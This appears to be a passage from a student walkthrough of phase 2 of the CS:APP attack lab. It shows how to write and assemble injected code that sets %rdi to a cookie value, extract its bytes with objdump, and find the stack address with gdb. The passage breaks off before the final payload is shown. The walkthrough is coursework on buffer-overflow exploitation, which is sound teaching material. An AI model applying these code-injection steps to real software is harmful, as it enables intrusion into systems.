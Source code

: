 ```
  4019e5:	bf 00 00 00 00       	mov    $0x0,%edi
  4019ea:	e8 61 f4 ff ff       	callq  400e50 <exit@plt>
```

similar to phase 1, but according to instruction pdf, it says, "recall that the first argument to a function is passed in the register %rdi"

we have to modify the %rdi register to store our cookie in there. thus, we need to write some assembly code for that task. cookie can be found from result of phase 1. 

create a file called phase2.s and write the code below,

phase2.s 

```
movq $0x117fd061, %rdi
retq
```

we need byte representation of code we wrote above, compile it with gcc then dissasemble it, use these commands
```
linux> gcc -c phase2.s
linux> objdump -d phase2.o > phase2.d
```
or in one line
```
linux> gcc -c phase2.s; objdump -d phase2.o > phase2.d 
```

if we open the file phase2.d we should get something like below

phase2.d
```
phase2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 61 d0 7f 11 	mov    $0x117fd061,%rdi
   7:	c3                   	retq   

```

the byte representation of the assembly code is 48 c7 c7 61 d0 7f 11 c3, 
now we need to find the address of rsp register using commands

```
gdb> gdb ctarget
gdb> b getbuf
gdb> r -q
gdb> n
gdb> p $rsp
```

looks something like this... 

